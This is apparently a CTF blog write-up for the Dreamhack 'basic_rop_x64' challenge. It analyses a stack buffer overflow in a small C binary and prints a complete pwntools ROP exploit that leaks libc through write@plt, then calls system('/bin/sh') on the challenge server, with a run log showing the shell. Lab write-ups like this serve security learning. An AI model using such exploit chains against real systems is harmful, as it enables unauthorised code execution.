 ```yaml
---
title: "[DREAMHACK] - basic_rop_x64"
published: 2024-12-01
description: ""
image: "../image.png"
tags:
  - PWN
category: "Wargame"
draft: false
---
```


## Analysis

```bash
alter ^ Sol in ~/Dreamhack/basic_rop_x64
$ file basic_rop_x64_patched
basic_rop_x64_patched: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.35.so, for GNU/Linux 2.6.32, BuildID[sha1]=beee0ff502aca71479db7d481ef811576592438a, not stripped
alter ^ Sol in ~/Dreamhack/basic_rop_x64
$ checksec basic_rop_x64_patched
[*] '/home/alter/Dreamhack/basic_rop_x64/basic_rop_x64_patched'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    RUNPATH:    b'.'
    Stripped:   No
```

The binary with no Canary, and 64bit. Let's take a look at the source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}
```

We can see that there is a buffer overflow here:

```c
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400
```

The `buf` variable just can contain 0x40 bytes but we can input `0x400` bytes. So thath let's find the offset to saved RIP

Let's use `pwndbg`:

```nasm
   0x00000000004007ba <+0>:     push   rbp
   0x00000000004007bb <+1>:     mov    rbp,rsp
   0x00000000004007be <+4>:     sub    rsp,0x50
   0x00000000004007c2 <+8>:     mov    DWORD PTR [rbp-0x44],edi
   0x00000000004007c5 <+11>:    mov    QWORD PTR [rbp-0x50],rsi
   0x00000000004007c9 <+15>:    lea    rdx,[rbp-0x40]
   0x00000000004007cd <+19>:    mov    eax,0x0
   0x00000000004007d2 <+24>:    mov    ecx,0x8
   0x00000000004007d7 <+29>:    mov    rdi,rdx
   0x00000000004007da <+32>:    rep stos QWORD PTR es:[rdi],rax
   0x00000000004007dd <+35>:    mov    eax,0x0
   0x00000000004007e2 <+40>:    call   0x40075e <initialize>
   0x00000000004007e7 <+45>:    lea    rax,[rbp-0x40]
   0x00000000004007eb <+49>:    mov    edx,0x400
   0x00000000004007f0 <+54>:    mov    rsi,rax
   0x00000000004007f3 <+57>:    mov    edi,0x0
   0x00000000004007f8 <+62>:    call   0x4005f0 <read@plt>
   0x00000000004007fd <+67>:    lea    rax,[rbp-0x40]
   0x0000000000400801 <+71>:    mov    edx,0x40
   0x0000000000400806 <+76>:    mov    rsi,rax
   0x0000000000400809 <+79>:    mov    edi,0x1
   0x000000000040080e <+84>:    call   0x4005d0 <write@plt>
   0x0000000000400813 <+89>:    mov    eax,0x0
   0x0000000000400818 <+94>:    leave
   0x0000000000400819 <+95>:    ret

```

We can see our `buf` is located in `[rbp-0x40]` we can see here:

```nasm
   0x00000000004007e7 <+45>:    lea    rax,[rbp-0x40]
   0x00000000004007eb <+49>:    mov    edx,0x400
   0x00000000004007f0 <+54>:    mov    rsi,rax
   0x00000000004007f3 <+57>:    mov    edi,0x0
   0x00000000004007f8 <+62>:    call   0x4005f0 <read@plt>
   0x00000000004007fd <+67>:    lea    rax,[rbp-0x40]
   0x0000000000400801 <+71>:    mov    edx,0x40
   0x0000000000400806 <+76>:    mov    rsi,rax
   0x0000000000400809 <+79>:    mov    edi,0x1
   0x000000000040080e <+84>:    call   0x4005d0 <write@plt>

```

So the offset from `buf` to `saved RBP` is `0x40` and we need to add more `16` bytes to overwrite the `saved RIP`

The next thing to do is leak the `libc address` because in this challenge, there is no way to read the flags except by calling the shell.

## Exploit

So there is a list we need to do

- Leak libc address using `write@plt` -> write(1, read@got, 8)

```python
pop_rdi = 0x0000000000400883
pop_rsi_r15 = 0x0000000000400881
read_plt = exe.plt["read"]
read_got = exe.got["read"]
write_plt = exe.plt["write"]
write_got = exe.got["write"]
main = exe.symbols["main"]

payload = b'A' * 0x48
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(8)
payload += p64(write_plt)
payload += p64(main)
s(payload)
```

- Calculate

```python
ru(b'A'*0x40)
leak_libc = u64(rnb(6) + b'\\0\\0')
libc.address = leak_libc - libc.sym['read']
slog("Libc base", libc.address)
```

Why `ru(b'A'*0x40)`?
-> Because our buf can only hold `0x40` bytes and when we write for the first time `write(1, buf, sizeof(buf));` it will read full `0x40` bytes of `buf`. When we `write` again it will print out what we need.

P/s: I use `libc.address` here because initially, the address in `libc` when `libc = ELF('./libc.so.6', checksec=False)` is defaulted to 0, so the address every time we `payload += p64(libc.sym['system'])` will be the `offset` of libc to the system function, not the address of the system function. I don't want that! So I set `libc.address = leak_libc - libc.sym['read']` which will be the libc base. So when I use `payload += p64(libc.sym['system'])` it will automatically add that system offset and go straight to the system function for me. For example:

```bash
>>> from pwn import *
>>> libc = ELF('./libc.so.6', checksec=False)
>>> libc.address
0
>>> libc.sym['read']
1132928
>>> hex(libc.sym['read'])
'0x114980'
>>> libc.address = 1
>>> hex(libc.sym['read'])
'0x114981'
```

- Get shell

```python
payload = b'A' * 0x48
payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')))
payload += p64(libc.sym['system'])
s(payload)
```

### Full payload

```python
#!/usr/bin/python3
from pwncus import *

context.log_level = 'debug'
exe = context.binary = ELF('./basic_rop_x64_patched', checksec=False)
libc = ELF('./libc.so.6', checksec=False)

def GDB(): gdb.attach(p, gdbscript='''

b*0x0000000000400819
c
''') if not args.REMOTE else None

p = remote('host3.dreamhack.games',20302 ) if args.REMOTE else process(argv=[exe.path], aslr=False)
set_p(p)
if args.GDB: GDB(); input()

# ===========================================================
#                          EXPLOIT
# ===========================================================

pop_rdi = 0x0000000000400883
pop_rsi_r15 = 0x0000000000400881
read_plt = exe.plt["read"]
read_got = exe.got["read"]
write_plt = exe.plt["write"]
write_got = exe.got["write"]
main = exe.symbols["main"]

# Leak libc address
payload = b'A' * 0x48
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(8)
payload += p64(write_plt)
payload += p64(main)
s(payload)

ru(b'A'*0x40)
leak_libc = u64(rnb(6) + b'\\0\\0')
libc.address = leak_libc - libc.sym['read']
slog("Libc base", libc.address)
slog("Libc leak",leak_libc)

# Get shell
payload = b'A' * 0x48
payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')))
payload += p64(libc.sym['system'])
s(payload)

interactive()

```

```bash
alter ^ Sol in ~/Dreamhack/basic_rop_x64
$ ./xpl.py REMOTE
[+] Opening connection to host3.dreamhack.games on port 20302: Done
[+] Libc base: 0x7fb60fc8f000
[+] Libc leak: 0x7f243740f980
[*] Switching to interactive mode
\\x00\\x00\\xc0\\x8d\\xcb\\x0f\\xb6\\x7f\\x00\\x00 \\x14\\xcd\\x0f\\xb6\\x7f\\x00\\x00p\\x06\\xd1\\x0f\\xb6\\x7f\\x00\\x006\\x06@\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00$                                                                      AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA$ ls
basic_rop_x64
flag
```
